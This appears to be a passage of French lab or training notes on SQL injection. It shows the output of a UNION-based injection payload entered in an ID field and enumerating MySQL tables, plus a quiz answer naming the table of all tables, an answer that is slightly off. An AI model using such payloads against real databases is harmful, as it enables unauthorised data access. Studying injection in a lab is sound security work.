 ```
First name: performance_schema
Surname: events_waits_history_long
ID: ' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
First name: performance_schema
Surname: events_waits_summary_by_instance
ID: ' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
First name: performance_schema
Surname: events_waits_summary_by_thread_by_event_name
ID: ' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
First name: performance_schema
Surname: events_waits_summary_global_by_event_name
ID: ' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
First name: performance_schema
Surname: file_instances
ID: ' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
First name: performance_schema
Surname: file_summary_by_event_name
ID: ' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
First name: performance_schema
Surname: file_summary_by_instance
ID: ' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
First name: performance_schema
Surname: mutex_instances
ID: ' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
First name: performance_schema
Surname: performance_timers
ID: ' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
First name: performance_schema
Surname: rwlock_instances
ID: ' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
First name: performance_schema
Surname: setup_consumers
ID: ' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
First name: performance_schema
Surname: setup_instruments
ID: ' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
First name: performance_schema
Surname: setup_timers
ID: ' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
First name: performance_schema
Surname: threads
```
- Quelle table contient le nom de toutes les tables connues de MySQL ?
	- **information_schema.table_name**
